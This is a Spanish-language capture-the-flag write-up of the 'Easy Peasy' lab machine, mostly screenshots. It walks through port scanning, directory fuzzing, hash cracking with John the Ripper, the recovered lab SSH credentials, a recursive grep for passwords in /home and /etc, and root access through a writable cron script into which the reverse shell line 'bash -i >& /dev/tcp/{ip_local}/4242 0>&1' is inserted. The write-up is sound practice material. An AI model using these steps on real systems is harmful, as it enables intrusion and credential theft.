Easy Peasy
Análisis
Empezamos con un escaneo de puertos sencillo y seguimos con uno más complejo para ver más información de los servicios instalados:
 Servicios detectados:
- Puerto 80: nginx 1.16.1
- Puerto 6498: OpenSSH 7.6p1
- Puerto 65524: Apache httpd 2.4.43
Analizando los servicios web uno a uno:
 nginx
Fuzzeando directorios:
-
/hidden


No parece que la imagen tenga algo escondido.
  
Primera flag
-
robots.txt

F
apache
-
index.html



Tercera flag
-
robots.txt

Yep, he usado chatGPT para descifrar esto
Segunda flag
-
/n0th1ng3ls3m4tt3r/

Contiene el hash de una contraseña y una imagen (raro).
Es un hash en sha256
La crackeamos con john the ripper
  user: boring
pass: iconvertedmypasswordtobinary
Acceso y Escalada de Privilegios
Tenemos usuario y contraseña SSH:
Entramos en la máquina como el usuario boring (sin privilegios).

Nos dice que está rotado (ROT)
Escalada de privilegios
No podemos ejecutar sudo
Un programa que nos permite ejecutar comandos por otros usuarios...
Pide la contraseña del root, no funciona
grep -r "password" /home /etc 2>/dev/nullPodría... pero no
En crontab vemos que hay un archivo que se ejecuta cada minuto por el usuario root.
Un usuario normal puede editar este archivo.
bash -i >& /dev/tcp/{ip_local}/4242 0>&1
Ponemos un puerto en escucha en nuestra máquina y esperamos un minuto (aprox).
 Y ya estaría, hemos accedido a la máquina con root.